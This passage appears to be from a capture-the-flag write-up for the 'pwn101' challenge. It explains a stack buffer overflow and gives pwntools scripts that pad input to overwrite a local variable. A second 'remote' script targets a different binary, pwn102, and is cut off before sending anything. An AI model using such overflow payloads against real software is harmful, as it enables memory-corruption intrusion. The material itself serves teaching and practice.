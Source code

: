 As our stack starts growing at rbp-0x40 we need to add somewhere beetween (0x40-0x4) and additional 1-3 Bytes to overwrite the `var_4h`.

## Exploit (local)
```python
from pwn import *

context.binary = binary = './pwn101.pwn101'

padding_needed = 0x40-0x4
padding = "\x41"*padding_needed
junk = "\x42"

payload = padding + junk

proc = process('./pwn101.pwn101')
proc.recvline('Type the required ingredients to make briyani:')

proc.sendline(payload)
proc.interactive()

```

![picture 9](/assets/images/3f49bc0fc9e942f042dd255b88db994c2005c9ea68393d6131f31288f2ec0eb8.png)  

## Exploit (remote)
```python
from pwn import *

context.binary = binary = './pwn102.pwn102'

padding_range = 0x70-0x08
padding = "\x41"*padding_range

# code = 0x0000c0d3 => \xd3\xc0\x00\x00
# coffee = 0x00c0ff33 => \x33\xff\xc0\x00
code = "\xd3\xc0\x00\x00"
coffee = "\x33\xff\xc0\x00"

```